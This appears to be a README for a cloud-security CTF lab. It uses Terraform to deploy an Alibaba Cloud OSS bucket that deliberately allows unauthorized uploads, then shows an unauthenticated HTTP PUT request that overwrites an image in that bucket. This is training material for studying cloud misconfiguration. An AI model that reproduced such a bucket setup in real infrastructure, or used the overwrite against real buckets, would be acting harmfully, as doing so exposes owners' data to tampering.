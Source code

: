 # Description

English | [中文](./README_CN.md)

This is a script to help you quickly build storage buckets for unauthorized uploads, have fun!

## Deployment environment

### Git clone

```bash
cd /TerraformGoat/aliyun/oss/unrestricted_file_upload/
```

Configure Alibaba Cloud Access Credentials

```bash
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

```shell
terraform init
terraform apply
```

If you confirm that there is no problem, type yes and wait for the build

## Get Flag

Visit /hx.png to get the image

![image-20220425192605952](../../../images/image-20220425192605952.png)

This image can be overwritten by using the PUT method

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

Afterwards, we use the GET method to get the contents of our overwritten

![image-20220425192649111](../../../images/image-20220425192649111.png)

## Destruction Challenge

```bash
terraform destroy
```
